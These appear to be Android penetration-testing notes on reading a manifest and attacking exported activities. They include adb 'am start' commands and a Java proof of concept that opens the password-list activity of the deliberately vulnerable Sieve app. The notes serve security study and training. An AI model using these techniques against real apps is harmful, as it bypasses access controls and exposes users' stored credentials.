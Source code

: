 1. [Analyse](#analyse)

## Analyze

**android:compileSdkVersionCodename** >>  Define the android version.<br>

**android:compileSdkVersion** >> Define the android api version.<br>

**package** >> Unique Idenfier of an apk.<br>

<**uses-permission**> >> Requests permission to access other apps data.<br>

<**permission**> >> Define a custom permission to give access of resources to other apps. (Exploit Vector)<br>

<**queries**> >> Exchange data between other applications.

**exported="true"** or <**intent-filter**>...<**intent-filter**/> >> This things are activity.

**android:exported** missing but intent filter present	✅ Exported (automatically)
<br>
**android:exported** missing and no intent filter		🚫 Not exported

**android:scheme** >> Defines deeplink, weblink and applink.

## Activity Hacking

**With ADB**

	am start -n <package-name/.activity-name> >> To start a specific activity of an app/package.
	
	am start -a <action-name> -c <catagory-name> >> To start a intent activity with action and catagory name.
	
	am start -a <action-name> -c <catagory-name> --es "username" "admin" >> To provide data to the activity.


**MainActivity.java**


```java
package com.example.myapplication;

import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {

        // 🔹 Launch malicious Activity explicitly
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(
                "com.mwr.example.sieve",        // target package
                "com.mwr.example.sieve.PWList"  // target activity
        ));
        startActivity(intent);
    }
}
```

